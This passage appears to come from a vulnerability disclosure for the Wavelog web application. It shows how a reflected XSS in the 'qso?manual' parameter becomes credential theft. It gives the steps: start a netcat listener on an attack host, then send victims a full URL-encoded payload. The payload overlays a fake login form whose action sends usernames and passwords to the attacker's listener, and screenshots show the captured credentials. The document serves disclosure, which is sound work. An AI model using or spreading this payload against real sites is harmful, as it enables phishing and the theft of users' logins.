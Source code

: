 So far this is just a self XSS, but we can use this concept to steal the credentials of authenticated users using the web application.

<div style="page-break-after: always;"></div>

## Credential stealing via UI Redressing
1. Start a listener on an attack host (i.e. netcat)<br>
<div align=center><figure><img src="https://github.com/user-attachments/assets/c12941d0-65d7-4abd-b372-78bd7340dff8" alt="Netcat Listener" style="max-width: 100%; height: auto;"><br><figcaption><strong><em>Netcat Listener</em></strong></figcaption></figure></div><br>

2. Send the following payload to the victim user.

<pre style="white-space: pre-wrap;background: #f9f9f9;padding: 1em;border: 1px solid #ddd;border-radius: 4px;">https://demo.wavelog.org/qso?manual=%3Cdiv%20style%3D%22position%3Aabsolute%3Btop%3A0%3Bleft%3A0%3Bwidth%3A100%25%3Bheight%3A100%25%3Bbackground%3Ablack%3Bcolor%3Awhite%3Bz%2Dindex%3A1%22%3E%3Ch1%3EWelcome%20to%20the%20Demo%20of%20Wavelog%3C%2Fh1%3E%3Cp%3EThis%20demo%20will%20be%20reset%20every%20night%20at%200200z%2E%3Cbr%3EMore%20Information%20about%20Wavelog%20on%20Github%2E%3C%2Fp%3E%3Cform%20method%3D%22GET%22%20action%3D%22http%3A%2F%2Flocalhost%3A1111%2F%22%3E%3Cstrong%3EUsername%3C%2Fstrong%3E%3Cinput%20type%3D%22text%22%20name%3D%22user%5Fname%22%3E%3Cbr%3E%3Cstrong%3EPassword%3C%2Fstrong%3E%3Cinput%20type%3D%22password%22%20name%3D%22user%5Fpassword%22%3E%3Cbr%3E%3Cbr%3E%3Cinput%20type%3D%22checkbox%22%3E%3Csmall%3EKeep%20me%20logged%20in%3C%2Fsmall%3E%3Cbr%3E%3Cbutton%20class%3D%22w%2D100%20btn%20btn%2Dprimary%22%20type%3D%22submit%22%3ELogin%20%E2%86%92%3C%2Fbutton%3E%3C%2Fform%3E%3C%2Fdiv%3E</pre><br>

When the victim visits the URL, it will present a fake login page.
<div align=center><figure><img src="https://github.com/user-attachments/assets/7a9f5bda-a6eb-48e7-9c70-f0e403245196" alt="XSS UI Redressing" style="width: 100%; max-width: 100%; height: auto;"><figcaption><strong><em>XSS UI Redressing</em></strong></figcaption></figure></div><br>

<div style="page-break-after: always;"></div>

When the credentials are entered and the login button is clicked, the listener on the attack host will capture the credentials.
<div align=center><figure><img src="https://github.com/user-attachments/assets/2d4eee4e-cd8b-4bdc-96b1-25a1ccee9318" alt="Stolen Credentials" style="width: 100%; max-width: 100%; height: auto;"><figcaption><strong><em>Stolen Credentials</em></strong></figcaption></figure></div>


